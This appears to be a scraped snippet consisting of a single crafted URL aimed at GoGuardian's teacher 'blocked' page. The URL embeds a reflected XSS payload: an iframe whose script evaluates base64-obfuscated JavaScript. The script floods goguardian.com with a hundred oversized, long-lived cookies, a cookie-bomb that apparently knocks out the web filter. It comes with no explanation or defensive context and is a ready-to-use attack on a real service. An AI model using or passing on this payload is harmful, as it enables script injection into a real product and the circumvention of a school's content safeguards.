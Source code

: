 https://student.goguardian.com/teacher/blocked.html?cs=[{"name": ""}, {"name": "<iframe srcdoc=\"<script>top.eval(atob(`Zm9yKGxldCBpID0gMDsgaSA8IDEwMDsgaSsrKSB7CiAgZG9jdW1lbnQuY29va2llID0gYHgke2l9PSR7ZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoY3J5cHRvLmdldFJhbmRvbVZhbHVlcyhuZXcgVWludDhBcnJheSgyNSAqIDI1KSkpKX07ZXhwaXJlcz0ke25ldyBEYXRlKDJlMTQpLnRvVVRDU3RyaW5nKCl9O2RvbWFpbj1nb2d1YXJkaWFuLmNvbTtwYXRoPS9gOwp9`))</script>\"></iframe>"}]
